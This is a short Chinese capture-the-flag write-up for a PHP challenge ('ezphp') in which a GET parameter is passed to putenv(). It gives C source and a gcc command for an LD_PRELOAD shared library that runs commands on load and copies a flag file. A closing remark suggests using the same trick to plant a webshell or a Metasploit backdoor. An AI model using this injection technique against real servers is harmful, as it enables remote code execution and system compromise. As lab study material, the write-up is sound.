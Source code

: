 ## ezphp #LD_PRELOAD
考点 Nginx的缓存机制
当时刚好看了p神的环境变量执行命令思维直接跑偏了

```PHP
<?php (empty($_GET["env"])) ? highlight_file(__FILE__) : putenv($_GET["env"]) && system('echo hfctf2022');?>
```

编译为so文件
`gcc -shared -fPIC exp.c -o exp.so`
exp.c
```c
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

__attribute__ ((__constructor__)) void preload (void){
	  unsetenv("LD_PRELOAD");
	    system("id");
	      system("cat /flag > /var/www/html/flag");
}
```

>这里如果不添加unsetenv的话会死循环
>system如果是php的话可以用来写马或者上msf马


